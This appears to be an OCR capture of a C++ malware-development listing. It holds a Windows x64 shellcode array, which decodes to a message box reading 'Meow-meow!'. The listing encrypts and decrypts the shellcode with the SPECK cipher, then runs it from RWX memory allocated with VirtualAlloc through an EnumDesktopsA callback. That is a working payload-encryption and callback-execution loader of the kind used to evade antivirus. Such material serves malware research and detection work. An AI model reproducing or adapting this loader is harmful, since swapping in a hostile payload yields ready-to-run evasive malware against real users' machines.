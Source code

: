 ```cpp
    0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x00,0x00,0x00,0x41,0x51,0x41,
    0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,0x8b,0x52,
    0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,0x0f,0xb7,0x4a,
    0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,
    0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,0x20,0x3e,
    0x8b,0x42,0x3c,0x48,0x01,0xd0,0x3e,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,
    0x74,0x6f,0x48,0x01,0xd0,0x50,0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,
    0x01,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,
    0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,
    0xf1,0x3e,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,
    0x40,0x24,0x49,0x01,0xd0,0x66,0x3e,0x41,0x8b,0x0c,0x48,0x3e,0x44,0x8b,0x40,0x1c,
    0x49,0x01,0xd0,0x3e,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
    0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,
    0x58,0x41,0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,
    0xc1,0x00,0x00,0x00,0x00,0x3e,0x48,0x8d,0x95,0x1a,0x01,0x00,0x00,0x3e,0x4c,0x8d,
    0x85,0x25,0x01,0x00,0x00,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x07,0xff,0xd5,
    0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,
    0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,
    0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x4d,0x65,0x6f,0x77,0x2d,0x6d,0x65,0x6f,0x77,
    0x21,0x00,0x3d,0x5e,0x2e,0x2e,0x5e,0x3d,0x00
  };
  int payload_len = sizeof(payload);

  speck_key_schedule();

  for (int i = 0; i < payload_len; i += BLOCK_SIZE) {
    speck_encrypt((uint64_t*)&payload[i], (uint64_t*)&payload[i+8]);
  }

  printf("encrypted: \n");
  for (int i = 0; i < payload_len; i++) {
    printf("%02x ", payload[i]);
    if ((i + 1) % 16 == 0) printf("\n");
  }
  printf("\n\n");

  for (int i = 0; i < payload_len; i += BLOCK_SIZE) {
    speck_decrypt((uint64_t*)&payload[i], (uint64_t*)&payload[i+8]);
  }

  printf("decrypted: \n");
  for (int i = 0; i < payload_len; i++) {
    printf("%02x ", payload[i]);
    if ((i + 1) % 16 == 0) printf("\n");
  }

  LPVOID mem = VirtualAlloc(NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  memcpy(mem, payload, payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);

  return 0;
}
```
